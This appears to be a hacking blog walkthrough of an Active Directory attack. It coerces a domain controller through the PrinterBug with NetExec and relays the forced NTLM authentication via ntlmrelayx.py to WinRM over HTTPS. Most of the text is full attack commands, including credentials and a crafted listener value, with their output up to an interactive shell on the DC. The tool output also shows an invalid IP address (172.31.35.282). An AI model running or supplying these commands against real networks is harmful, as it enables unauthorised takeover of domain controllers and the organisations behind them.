


Getting to Administrator with NetExec (Coerce) and ntlmrelayx.py
Overviews
The vulnerability isn't in the user or creds, but it's in how Windows protocols handle authentication by design. The PrinterBug is a feature (not a bug per se) in the Windows Spooler service that can be abused to force any domain machine to reach out and authenticate to an attacker-controlled host, which mean the attacker doesn't wait for a victim to connect, they trigger it on demand.

Photos From: SpecterOps
When DC sends that forced NTLM authentication over SMB, ntlmrelayx.py intercepts it mid-flight and re-uses it in real-time against WinRM on the same DC, a technique that works because NTLM authentication is not bound to a specific protocol or session, so credentials accepted over SMB can be replayed over WinRM.
root caused:
The root weakness here is that SMB signing was enabled but WinRM had no equivalent protection, creating a gap where cross-protocol relay is possible.

Photos From: SpecterOps
LM Compatibility Level:
| Value | Client NTLMv1 | Client NTLMv2 | Server NTLMv1 | Server NTLMv2 |
|-------|---------------|---------------|---------------|---------------|
| 0 | Enabled | Disabled | Enabled | Enabled |
| 1 | Enabled | Disabled | Enabled | Enabled |
| 2 | Enabled | Disabled | Enabled | Enabled |
| 3 * | Disabled | Disabled | Enabled | Enabled |
| 4 | Disabled | Enabled | Enabled | Enabled |
| 5 | Disabled | Enabled | Disabled | Enabled |Practical
We run ntlmrelayx.py to catch the authentication and relay it into winrm-based shell with the following options:
-t winrms://DC01.titancorp.localWhich the target of this attack is WinRM on HTTPS on DC01.-smb2supportWithout SMB2 support this can't be done!
In action:
┌──(byt3n33dl3㉿kali)-[~]
└─$ proxychains ntlmrelayx.py -t winrms://DC01.titancorp.local -smb2support
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client WINRMS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled
[*] Servers started, waiting for connectionsThen in this time, I need proxychains so that ntlmrelayx.py can connect to 5986, as now it's blocked by the firewall directly from my host.
Now we spawn coerce again (this time just using PrinterBug to not flood with authentication attempts):
┌──(byt3n33dl3㉿kali)-[~]
└─$ proxychains -q netexec smb DC01.titancorp.local -u ldap-svc -p 'svcP@ssw0rd' -M coerce_plus -o L=dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA M=PrinterBug
SMB 172.31.35.282 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:titancorp.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 172.31.35.282 445 DC01 [+] TITANCORP.LOCAL\ldap-svc:svcP@ssw0rd
COERCE_PLUS 172.31.35.282 445 DC01 VULNERABLE, PrinterBug
COERCE_PLUS 172.31.35.282 445 DC01 Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationExDone, looking back at ntlmrelayx.py we got:
. . .[SNIP]. . .
[*] (SMB): Received connection from 172.31.35.282, attacking target winrms://DC01.titancorp.local
[!] The client requested signing, relaying to WinRMS might not work!
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.titancorp.local:5986 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.titancorp.local:5986 ... OK
[*] HTTP server returned error code 500, this is expected, treating as a successful login
[*] (SMB): Authenticating connection from /@172.31.35.282 against winrms://DC01.titancorp.local SUCCEED [1]
[*] winrms:///@dc01.titancorp.local [1] -> Started interactive WinRMS shell via TCP on 127.0.0.1:11000Let's start a shell on local port, connect via NetCat (nc):
┌──(byt3n33dl3㉿kali)-[~]
└─$ nc localhost 11000
Type help for list of commands
#Boom, we're in!!!
An attacker can simply relay the NTLM messages between a client and server, back and forth, until the server establishes a session for the client, allowing the attacker to perform any operation the client could perform on the server.
Shout Outs
Much Thanks to:
- ntlmrelayx.py from impacket
- SpecterOps
Moreover, Proton me if you have further question and suggestion.
Happy hacking!